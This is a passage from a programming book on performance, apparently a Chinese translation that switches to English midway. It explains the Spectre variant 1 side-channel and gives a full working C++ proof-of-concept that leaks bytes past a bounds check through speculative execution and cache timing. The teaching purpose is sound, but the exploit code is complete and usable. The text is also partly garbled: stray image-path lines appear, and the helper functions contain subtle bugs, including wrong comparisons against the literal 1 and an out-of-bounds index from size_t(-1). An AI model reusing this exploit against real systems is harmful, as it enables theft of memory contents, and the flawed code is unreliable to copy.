
前两章中,我们了解了在现代计算机上从初始数据到最终结果的复杂性。有时,机器会按照代码进行操作:从内存中读取数据,按写好的方式进行计算,然后将结果保存到内存中。然而,数据会经历一些我们可能不知道的奇怪中间状态。从内存中读取的过程,可能不然:CPU可能会执行别的指令,可能CPU认为读取过程需要这些别的指令等。我们试图通过直接的性能测量,来确认所有这些过程确实存在。这样的话,测量总是间接的:对代码的硬件优化和转换是为了交付正确结果而设计,毕竟只是进行了更快的计算。

本节中,我们将展示更多本应隐藏的硬件操作的可观察证据。这是一个重大发现:在2018年发现时引发了的网络安全恐慌,在硬件和软件供应商提供了大量补丁后才得以平息。当然,我们说的是Spectre和Meltdown安全漏洞(\url{https://meltdownattack.com/})。

\subsubsubsection{4.6.1\hspace{0.2cm}什么是Spectre?}

在本节中,我们将详细演示Spectre攻击的早期版本,即Spectre版本1。虽然这不是一本关于网络安全的书,不过Spectre攻击通过仔细测量程序的性能来进行,依赖于本书中研究过的两种性能增强硬件技术:投机执行和内存缓存。在针对软件性能的攻击,也可以学到一些东西。

Spectre背后的理念是,如果CPU遇到条件跳转指令,会尝试预测结果,并在假设预测正确的情况下执行指令。这就是所谓的投机执行,没有它,就不会有代码中的流水。投机执行中比较棘手的部分是错误处理:错误经常发生在推测执行的代码中,但在预测正确之前,这些错误必须不可见。最明显的例子是空指针解除引用:如果处理器预测指针不为空,并执行相应的分支,那么每次分支错误预测时都会发生致命错误,而指针实际上为空。正确编写代码以避免取消空指针的引用,其也必须正确执行:潜在的错误不能暴露出来。另一个常见的推测错误是数组边界读写:

\begin{lstlisting}[style=styleCXX]
int a[N];
…
if (i < N) a[i] = …
\end{lstlisting}

索引\texttt{i}通常小于数组的大小\texttt{N},那么这将成为预测条件,而从\texttt{a[i]}读取的数据将推测地执行。如果预测错了怎么办?丢弃结果,所以没有造成影响,对吧?没那么简单:内存位置\texttt{a[i]}不在原始数组中,甚至不必是数组后面的元素。索引可以是任何值,因此索引的内存位置可以属于不同的程序,甚至属于操作系统,这样我们就没有读取该内存的访问权限。操作系统确实会执行访问控制,所以通常从另一个程序读取内存会触发错误。这一次,我们不确定错误是否真的存在:执行仍然处于推测阶段,分支预测可能出错。在知道这个预测是否正确之前,错误仍然是推测性错误。

然而,对于潜在的非法读操作有一个奇妙的副作用:\texttt{a[i]}值已经加载到缓存中。下次从相同的位置读取时,读取速度会更快。无论是实际读取,还是投机的:投机执行期间的内存操作与真实执行时的操作一样。从主存读取需要更长的时间,而从缓存读取更快。我们可以观察和测量内存负载的速度。虽然是可衡量的副作用,但不是预期结果。实际上,该程序通过不同于预期输出的方式有额外的输出机制,这就是所谓的边信道。

Spectre攻击利用了这个侧面通道:

%\hspace*{\fill} \\ %插入空行
\begin{center}

\includegraphics[width=0.9\textwidth]{content/1/chapter4/images/17.jpg}\\
图4.17 - Spectre攻击
\end{center}

使用在投机执行过程中获得的\texttt{a[i]}来索引另一个数组\texttt{t}。之后,数组中的一个元素\texttt{t[a[i]}将加载到缓存中。数组\texttt{t}的其余部分从未访问,仍然在内存中。与元素\texttt{a[i]}不同,元素\texttt{a[i]}实际上不是数组\texttt{a}的元素,而是使用非法手段获得的内存位置上的某个值,数组\texttt{t}完全在我们的控制范围内。当读取\texttt{a[i]}和\texttt{t[a[i]}时,分支保持长时间的不可预测是攻击成功的关键。否则,当CPU检测到分支错误预测,并且实际上不需要这些内存访问时,投机执行就会结束。执行投机执行之后,最终会检测到错误预测,并且投机操作的所有后果都将回滚,包括潜在的内存访问错误。所有的结果只有一个,即数组\texttt{t[a[i]]}的值仍然在缓存中。这并没有什么问题,访问这个值是合法的,而且硬件总是在缓存中移动数据。这种方式永远不会改变结果,也不会让你访问任何不应该访问的内存。

然而,这整个系列的事件有一个可观察的结果:数组\texttt{t}中的一个元素的访问速度要比其他元素快得多:

%\hspace*{\fill} \\ %插入空行
\begin{center}

\includegraphics[width=0.9\textwidth]{content/1/chapter4/images/18.jpg}\\
图4.18 - Spectre攻击后内存和缓存的状态
\end{center}

我们可以测量读取数组\texttt{t}的每个元素所花费的时间,可以找到被\texttt{a[i]}索引的元素。其实,这是我们不应该知道的秘密!

\subsubsubsection{4.6.2\hspace{0.2cm}Spectre的例子}

Spectre攻击需要几步,我们将逐一介绍。总的来说,对于一本书来说,这是一个相当大的编码示例(这个特殊的实现是钱德勒·卡鲁斯在2018年CPPCon上示例的一个变体)。

我们需要一个精确的计时器,可以尝试使用C++高精度计时器:

\begin{lstlisting}[style=styleCXX]
using std::chrono::duration_cast;
using std::chrono::nanoseconds;
using std::chrono::high_resolution_clock;
long get_time() {
	return duration_cast< nanoseconds>(
	high_resolution_clock::now().time_since_epoch()
	).count();
}
\end{lstlisting}

开销和计时器的分辨率取决于实现。标准不要求任何特定的性能保证。对于x86 CPU,可以尝试使用时间戳计数器(TSC),这是一种硬件计数器,用于计算从过去某个时间开始的周期数。使用循环计数作为计时器通常会导致噪声测量,但计时器本身更快,这在这里很重要,因为我们将尝试测量从内存加载单个值需要多长时间。GCC、Clang和许多其他编译器都有内置函数来访问这个计数器:

\begin{lstlisting}[style=styleCXX]
long get_time() {
	unsigned int i;
	return __rdtscp(&i); // GCC/Clang intrinsic function
}
\end{lstlisting}

现在有了计时器,下一步是计时数组。实践中,它不像我们在图中暗示的整数数组那么简单:整数在内存中彼此太接近,将一个加载到缓存中会影响它访问邻近数据时间。所以,需要将值分隔开:

\begin{lstlisting}[style=styleCXX]
constexpr const size_t num_val = 256;
struct timing_element { char s[1024]; };
static timing_element timing_array[num_val];
::memset(timing_array, 1, sizeof(timing_array));
\end{lstlisting}

Here we are going to use only the first byte of the timing\_element; the rest are there to enforce the distance in memory. There is nothing magical about the distance of 1024 bytes; it just has to be large enough, but what that is for you is something that you have to determine experimentally: the attack becomes unreliable if the distance is too small. There are 256 elements in the timing array. This is because we are going to read the secret memory one byte at a time. So, in our earlier example, the array a[i] will be an array of characters (even if the real data type is not char, we can still read it byte by byte). Initializing the timing array is not, strictly speaking, necessary; nothing depends on the content of this array.

We are now ready to see the heart of the code. What follows is a simplified  implementation: it is missing a few necessary twists that we are going to add later, but it's easier to explain the code by focusing on the key parts first.

We need the array that we are going to read out-of-bounds:

\begin{lstlisting}[style=styleCXX]
size_t size = …;
const char* data = …;
size_t evil_index = …;
\end{lstlisting}

Here size is the real size of the data, and evil\_index is larger than size: it is the index of the secret value outside of the proper data array.

Next, we are going to train the branch predictor: we need it to learn that the more likely branch is the one that does access the array. To that end, we generate a valid index that always points into the array (we will see exactly how in a moment). This is our ok\_index:

\begin{lstlisting}[style=styleCXX]
const size_t ok_index = …; // Less than size
constexpr const size_t n_read = 100;
for (size_t i_read = 0; i_read < n_read; ++i_read) {
	const size_t i = (i_read & 0xf) ? ok_index : evil_index;
	if (i < size) {
		access_memory(timing_array + data[i]);
	}
}
\end{lstlisting}

Then we read the memory at the location timing\_array + data[i], where i is either the ok index or the evil index, but the former happens much more often than the latter (we try to read the secret data only once out of 16 attempts, to keep the branch predictor trained for a successful read). Note that the actual memory access is guarded by a valid bounds check; this is of utmost importance: we never actually read the memory we are not supposed to read; this code is 100\% correct.

The function to access memory is, conceptually, just a memory read. In practice, we have to contend with the clever optimizing compiler, which will try to eliminate redundant or unnecessary memory operations. Here is one way, it uses intrinsic assembly (the read instruction is actually generated by the compiler because the location *p is flagged as input):

\begin{lstlisting}[style=styleCXX]
void access_memory(const void* p) {
	__asm__ __volatile__ ( "" : :
	"r"(*static_cast<const uint8_t*>(p)) : "memory" );
}
\end{lstlisting}

We run the prediction-misprediction loop a number of times (100, in our example). Now we expect one element of the timing\_array to be in the cache, so we just have to measure how long it takes to access each element. The one caveat here is that sequentially accessing the whole array will not work: the prefetch will quickly kick in and move the element we are about to access into the cache. Very effective most of the time, but not what we need now. We have to access the elements of the array in random order instead and store the time it took to access each element in the array of memory access latencies:

\begin{lstlisting}[style=styleCXX]
std::array<long, num_val> latencies = {};
for (size_t i = 0; i < num_val; ++i) {
	const size_t i_rand = (i*167 + 13) & 0xff; // Randomized
	const timing_element* const p = timing_array + i_rand;
	const long t0 = get_time();
	access_memory(p);
	latencies[i_rand] = get_time() - t0;
}
\end{lstlisting}

You may wonder, why not simply look for the one fast access? Two reasons: first, we don't know what fast really means for any particular hardware; we just know that it's faster than normal. So we have to measure what is normal too. Second, any individual measurement is not going to be 100\% reliable: sometimes, the computation is interrupted by another process or the OS; the exact timing of the whole sequence of operations depends on what else the CPU is doing at the time, and so on. It's only very likely that this process will reveal the value at the secret memory location, but not 100\% guaranteed, so we have to try several times and average the results.

Before we do that, there are several omissions in the code we saw. First of all, it assumes that the timing array values are not in the cache already. Even if it was true when we started, it wouldn't be after we successfully peek at the first secret byte. We have to purge the timing array from the cache every time before we start the attack on the next byte we want to read:

\begin{lstlisting}[style=styleCXX]
for (size_t i = 0; i < num_val; ++i) {
	_mm_clflush(timing_array + i); // Un-cache the array
}
\end{lstlisting}

Again, we use a GCC/Clang built-in function; most compilers have something similar, but the function name could vary.

Second, the attack works only if the speculative execution lasts long enough for the two memory accesses (data and timing array) to happen before the CPU figures out which branch it was supposed to take. In practice, the code as written does not spend enough time in the speculative execution context, so we have to make it harder to compute what the correct branch is. There is more than one way to do it; here, we make the branch condition dependent on reading some value from memory. We will copy the array size into another variable that is slow to access:

\begin{lstlisting}[style=styleCXX]
std::unique_ptr<size_t> data_size(new size_t(size));
\end{lstlisting}

Now we have to make sure this value is evicted from the cache before we need to read it and use the array size value stored in *data\_size instead of the original size value:

\begin{lstlisting}[style=styleCXX]
_mm_clflush(&*data_size);
for (volatile int z = 0; z < 1000; ++z) {} // Delay
const size_t i = (i_read & 0xf) ? ok_index : evil_index;
if (i < *data_size) {
	access_memory(timing_array + data[i]);
}
\end{lstlisting}

There is also a magical delay in the preceding code, some useless computation that separates the cache flush from the access to the data size (it defeats the possible instruction reordering that would let the CPU access the array size faster). Now the condition i < *data\_size takes some time to compute: the CPU needs to read the value from memory before it knows the result. The branch is predicted according to the more likely outcome, which is a valid index, so the array is accessed speculatively.

\subsubsubsection{4.6.3\hspace{0.2cm}Spectre, unleashed}

The final step is to put it all together and run the procedure many times to accumulate statistically reliable measurements (timing measurements of a single instruction are very noisy given that the timer itself takes about as long as what we are trying to measure).

The following function attacks a single byte outside of the data array:

\hspace*{\fill} \\ %插入空行
\noindent
\textbf{spectre.C}
\begin{lstlisting}[style=styleCXX]
char spectre_attack(const char* data,
                    size_t size, size_t evil_index) {
	constexpr const size_t num_val = 256;
	struct timing_element { char s[1024]; };
	static timing_element timing_array[num_val];
	::memset(timing_array, 1, sizeof(timing_array));
	std::array<long, num_val> latencies = {};
	std::array<int, num_val> scores = {};
	size_t i1 = 0, i2 = 0; // Two highest scores
	std::unique_ptr<size_t> data_size(new size_t(size));
	constexpr const size_t n_iter = 1000;
	for (size_t i_iter = 0; i_iter < n_iter; ++i_iter) {
		for (size_t i = 0; i < num_val; ++i) {
			_mm_clflush(timing_array + i); // Un-cache the array
		}
		const size_t ok_index = i_iter % size;
		constexpr const size_t n_read = 100;
		for (size_t i_read = 0; i_read < n_read; ++i_read) {
			_mm_clflush(&*data_size);
			for (volatile int z = 0; z < 1000; ++z) {} // Delay
			const size_t i = (i_read & 0xf) ? ok_index :
			evil_index;
			if (i < *data_size) {
				access_memory(timing_array + data[i]);
			}
		}
		for (size_t i = 0; i < num_val; ++i) {
			const size_t i_rand = (i*167 + 13) & 0xff;
			// Randomized
			const timing_element* const p = timing_array +
			i_rand;
			const long t0 = get_time();
			access_memory(p);
			latencies[i_rand] = get_time() - t0;
		}
		score_latencies(latencies, scores, ok_index);
		std::tie(i1, i2) = best_scores(scores);
		constexpr const int threshold1 = 2, threshold2 = 100;
		if (scores[i1] >
		scores[i2]*threshold1 + threshold2) return i1;
	}
	return i1;
}
\end{lstlisting}

For each element of the timing array, we will compute a score, which is the number of times this element was the fastest one to access. We also track the second-fastest element, which should be just one of the regular, slow to access, array elements. We keep doing it for many iterations: ideally, until we get the result, but, in practice, we have to give up at some point.

Once a large enough gap opens between the best score and the second-best score, we know that we have reliably detected the fast element of the timing array, which is the one indexed by the value of the secret byte (if we reach the maximum number of iterations without getting a reliable answer, the attack has failed, although we can try to use the best guess we have so far).

We have two utility functions to compute the average scores for the latencies and find the two best scores; these can be implemented any way you want as long as they give the correct results. The first function computes the average latency and increments the scores for the timing elements that have latencies somewhat below average (the threshold for somewhat has to be adjusted experimentally but is not very sensitive). Note that we expect one array element to be significantly faster to access, so we can skip it when computing the average latency (ideally, that one element would have much lower latency than the rest, and the rest would all be the same):

\hspace*{\fill} \\ %插入空行
\noindent
\textbf{spectre.C}
\begin{lstlisting}[style=styleCXX]
template <typename T>
double average(const T& a, size_t skip_index) {
	double res = 0;
	for (size_t i = 0; i < a.size(); ++i) {
		if (1 != skip_index) res += a[i];
	}
	return res/a.size();
}

template <typename L, typename S>
void score_latencies(const L& latencies, S& scores,
size_t ok_index) {
	const double average_latency =
	average(latencies, ok_index);
	constexpr const double latency_threshold = 0.5;
	for (size_t i = 0; i < latencies.size(); ++i) {
		if (ok_index != 1 && latencies[i] <
		average_latency*latency_threshold) ++scores[i];
	}
}
\end{lstlisting}

The second function simply finds the two best scores in the array:

\hspace*{\fill} \\ %插入空行
\noindent
\textbf{spectre.C}
\begin{lstlisting}[style=styleCXX]
template<typename S>
std::pair<size_t, size_t> best_scores(const S& scores) {
	size_t i1 = -1, i2 = -1;
	for (size_t i = 0; i < scores.size(); ++i) {
		if (scores[i] > scores[i1]) {
			i2 = i1;
			i1 = i;
		} else
		if (i != i1 && scores[i] > scores[i2]) {
			i2 = i;
		}
	}
	return { i1, i2 };
}
\end{lstlisting}

Now we have a function that returns the value of a single byte outside of the specified array without ever reading this byte directly. We are ready to use it to get access to some secret data! For demonstration, we are going to allocate a very large array but designate most of it off-limits by specifying a small value as the array size. This is, in practice, the only way you can demonstrate this attack today: since its discovery, most computers have been patched against the Spectre vulnerability, so, unless you have a machine that was hidden in a cave and not updated for a few years, the attack will not work against any memory that you are really not allowed to access. The patches do not prevent you from using Spectre against any data that you are allowed to access, but you have to examine the code and prove that it really does return the values without accessing the memory directly. That is what we are going to do: our spectre\_attack function does not read any memory outside of the data array of the specified size, so we can create an array that is twice as large as specified and hide a secret message in the upper half:

\hspace*{\fill} \\ %插入空行
\noindent
\textbf{spectre.C}
\begin{lstlisting}[style=styleCXX]
int main() {
	constexpr const size_t size = 4096;
	char* const data = new char[2*size];
	strcpy(data, "Innocuous data");
	strcpy(data + size, "Top-secret information");
	for (size_t i = 0; i < size; ++i) {
		const char c =
		spectre_attack(data, strlen(data) + 1, size +
		i);
		std::cout << c << std::flush;
		if (!c) break;
	}
	std::cout << std::endl;
	delete [] data;
}
\end{lstlisting}

Examine again the values we give to the spectre\_attack function: the array size is just the length of the string stored in the array; no other memory is accessed by the code except in the speculative execution context. All memory accesses are guarded by the correct bound checks. And yet, byte by byte, this program reveals the content of the second string, the one that is never read directly.

To conclude, we used the speculative execution context to peek at the memory that we are not allowed to access. Because the branch condition for accessing this memory is correct, the invalid access error remains a potential error; it never actually happens. All the results of the mispredicted branch are undone, except one: the accessed value remains in the cache, so the next access to the same value is faster. By measuring the memory access times carefully, we can figure out what that value was! Why did we do this when we are interested in performance, not hacking? Mostly to confirm that the processor and the memory really behave the way we described: the speculative execution really happens, and the caches really work and make data accesses faster.



















